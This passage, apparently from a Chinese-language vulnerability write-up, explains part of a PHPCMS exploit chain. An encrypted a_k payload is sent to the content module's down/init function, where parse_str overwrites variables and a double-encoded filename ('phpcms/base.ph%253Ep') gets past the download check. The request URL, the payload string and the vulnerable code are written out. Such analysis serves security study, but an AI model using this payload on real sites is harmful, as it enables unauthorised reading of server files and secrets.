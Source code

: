 
送出後，我們會拿到  swfupload_json 幫我們轉json 格式並且又是 sys_auth 加密的cookie:
```
ac15w4jVZafeA-bTtfvGGQXi5uDWayLhIAozevShc51PgpAxycV68CrYDty0aaswl3ScZK2OmIpqo6LGmzJ53EXX9yR3k1VN_DLeXN8awsLvh5yFDYrqu1vXckVSYJOHJsIQpv-L5RitTSuzhWHsid9Adw
```




最後一步 payload是看上了 content 模塊的 down 類的 init 函數 並且payload 放在 a_k變數
```
http://localhost/index.php?m=content&c=down&a=init&a_k=

ac15w4jVZafeA-bTtfvGGQXi5uDWayLhIAozevShc51PgpAxycV68CrYDty0aaswl3ScZK2OmIpqo6LGmzJ53EXX9yR3k1VN_DLeXN8awsLvh5yFDYrqu1vXckVSYJOHJsIQpv-L5RitTSuzhWHsid9Adw

```


phpcms/modules/content/down.php 
init函數太長，我這邊用簡單的步驟說明

大概是:
```
//解碼變成 json 
$a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));



//危險函數 parse_str 可已覆蓋並創造其他值
//此時json 格式大概為&i=1&m=1&modelid=1&f=phpcms/base.ph%253Ep&d=1&catid=1
parse_str($a_k);

i=1
m=1
modelid=1

f=phpcms/base.ph%253Ep 但 parse_str 會自動 url decode 所以
f=phpcms/base.ph%3Ep


d=1 
catid=1


```



這樣的變數設置最後可以走進 init 的節尾判斷 if

```
if(strpos($f, 'http://') !== FALSE || strpos($f, 'ftp://') !== FALSE || strpos($f, '://') === FALSE) {
    $pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');
    $a_k = urlencode(sys_auth("i=$i&d=$d&s=$s&t=".SYS_TIME."&ip=".ip()."&m=".$m."&f=$f&modelid=".$modelid, 'ENCODE', $pc_auth_key));
    $downurl = '?m=content&c=down&a=download&a_k='.$a_k;
} else {
    $downurl = $f;			
}

include template('content','download');


```
